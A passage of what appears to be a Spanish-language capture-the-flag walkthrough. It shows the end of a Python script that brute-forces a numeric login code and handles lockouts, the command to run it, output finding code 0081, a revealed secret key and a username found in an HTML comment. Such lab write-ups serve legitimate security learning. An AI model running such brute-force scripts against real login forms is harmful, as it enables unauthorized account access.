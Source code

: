 ```python
            print(f"Error al enviar el código, estado {response.status_code}")
        
        # Esperamos un segundo entre cada intento para evitar hacer peticiones muy rápidas
        time.sleep(1)

        # Incrementamos el código para el siguiente intento
        current_code += 1

if __name__ == '__main__':
    print("Iniciando ataque de fuerza bruta para encontrar el código...")
    brute_force()
```

Lo guardamos y ejecutamos de la siguiente forma:

```shell
python3 bruteForceCode.py
```

Info:

```
..........................<RESTO_DE_CODIGO>......................................
Intento fallido. Intentos restantes: 2
Intentando código: 0074
Intento fallido. Intentos restantes: 1
Intentando código: 0075
Intento fallido. Intentos restantes: 10
Intentando código: 0076
Estás bloqueado, esperando 29 segundos...
Reintentando...
Intentando código: 0077
Intento fallido. Intentos restantes: 9
Intentando código: 0078
Intento fallido. Intentos restantes: 8
Intentando código: 0079
Intento fallido. Intentos restantes: 7
Intentando código: 0080
Intento fallido. Intentos restantes: 6
Intentando código: 0081
¡Código correcto encontrado! El código es 0081
```

Vemos que despues de un rato encontramos el codigo que sera el `0081`, el cual si lo introducimos veremos que entramos en una pagina la cual nos muestra una clave secreta que tendremos que guardarnos y tendremos `60` segundos para poder guardarnosla.

```
bbb2c5e63d2ef893106fdd0d797aa97a
```

Vemos que puede ser una posible contraseña para algun usuario del sistema, si enumeramos un poco mas en la pagina llamada `pageadmincodelogin.html` vemos que hay un nombre como comentario:

```html
<!--dimer-->
```
